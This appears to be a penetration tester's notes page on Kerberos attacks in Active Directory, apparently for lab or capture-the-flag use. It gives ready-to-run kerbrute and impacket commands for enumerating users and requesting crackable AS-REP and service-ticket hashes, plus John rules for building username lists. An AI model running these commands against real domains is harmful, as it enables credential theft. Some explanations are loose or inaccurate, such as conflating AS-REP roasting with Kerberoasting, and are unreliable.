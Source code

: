 # Kerberoas

---
# Navigation
- **[[#Definition]]**
- **[[#Kerberoasting]]**
	- [[#Kerbrute]]
	- [[#Kerberoasting]] 
- **[[#Synchronizing time is important]]**
- **[[#Further reading]]**

---
# Definition
## What's Kerberoas
Kerberos is **an authentication protocol that works on the basis of tickets** that allows clients to connect to services over an insecure network and still allow clients to prove their identity in a secure manner.
- If a user's `UserAccountControl` settings have "Do not require kerberoas preauthentication" enabled,it's possible to grab user's crackable AS-REP and brute-force it online.
- With sufficient rights `GenericWrite` or `GenericAll`,preauth can be forced disabled as well.
## How does Kerberoas work?
1. Login.
2. Request for Ticket Granting Ticket – TGT, Client to Server.
3. Server checks if the user exists.
4. Server sends TGT back to the client.
5. Enter your password.
6. Client obtains the TGS Session Key.
7. Client requests server to access a service.
8. Server verifies if service exist.
9. Server verifies request.
10. Server generates service session key.
11. Client receives service session key.
12. Client contacts service.
13. Service receives the request.
14. Service verifies request.
15. Service confirms identity to the client.
16. Client receives confirmation.
17. Client communicates with the service.
> Detailed explaination here: https://www.vanimpe.eu/2017/05/26/kerberos-made-easy/

# Kerberoasting
The goal is to get a **TGS** and decrypt server's account hash.
> Pre-requesties: Have a username or a list of users.

## Kerbrute
 For user enumeration,Password spraying and more
 ```bash
 go get github.com/ropnop/kerbrute
```
## Impacket tools
 **impacket-GetNPUsers**: Get users with disabled `Pre-authentication`.
 ```bash
 impacket-GetNPUsers <DOMAIN>/ -dc-ip 10.10.10.240 -no-pass -usersfile usernames.txt -format john
 ```
  **impacket-lookupsid**: Performs bruteforcing of Windows SID’s to identify users/groups on the remote target.
  ```bash
  impacket-lookupsid <DOAMIN>/ -target-ip <IP>
  ```
  **impacket-GetUserSPNs**:  Find Service Principal Names that are associated with a normal user account.
 ```bash
 impacket-GetUserSPNs <DOMAIN>/<USER> -dc-ip <IP> -request
 impacket-GetUserSPNs <DOMAIN>/<USER> -dc-ip <IP> -usersfile usernames.txt -no-pass -request
 ```
  **impacket-GetADUsers**: Gather data about the domain’s users and their corresponding email addresses. It will also include some extra information about last logon and last password set attributes.*If no entries are returned that means users don’t have email addresses specified so you can use **-all** option*.
 ```bash
 impacket-GetADUsers <DOMAIN>/<USER> -dc-ip <IP>
 impacket-GetADUsers <DOMAIN>/<USER> -dc-ip <IP> -all
 ```
 # Creating a list of users for bruteforcing
 - Download the rules
 ```bash
 curl https://gist.githubusercontent.com/dzmitry-savitski/65c249051e54a8a4f17a534d311ab3d4/raw/5514e8b23e52cac8534cc3fdfbeb61cbb351411c/user-name-rules.txt >> /etc/john/john.conf
 ```
 - To generate the list
 ```bash
 #Users file must be: zeyad abuqasem
 john --wordlist=first_last_names.txt --rules=Login-Generator-i --stdout > usernames.txt
 
 #For case sensitive output
 john --wordlist=first_last_names.txt --rules=Login-Generator --stdout > usernames.txt
 ```
 > Reference: https://dzmitry-savitski.github.io/2020/04/generate-a-user-name-list-for-brute-force-from-first-and-last-name
 # Synchronizing time is important
```bash
#Disable time sync on VM
sudo apt install ntpdate
sudo ntpdate <RemoteMachine-IP>

#Second method (my recommendation)
sudo apt install rdate
sudo rdate -n <DC>

#Third method 
sudo apt-get install chrony
sudo timedatectl set-ntp true 
sudo ntpdate <machine IP>

#Fourth method (xct notes)
sudo date -s "$(curl -sI <Target> | grep -i '^date:'|cut -d' ' -f2-)"
```
 # Further reading
 - Tutorial -> [**Impacket-Tools**](https://www.hackingarticles.in/abusing-kerberos-using-impacket/)
- Cheatsheet -> [**Kerbrute CheatSheet**](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)
- Explained -> [**Kerberoasting**](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting)

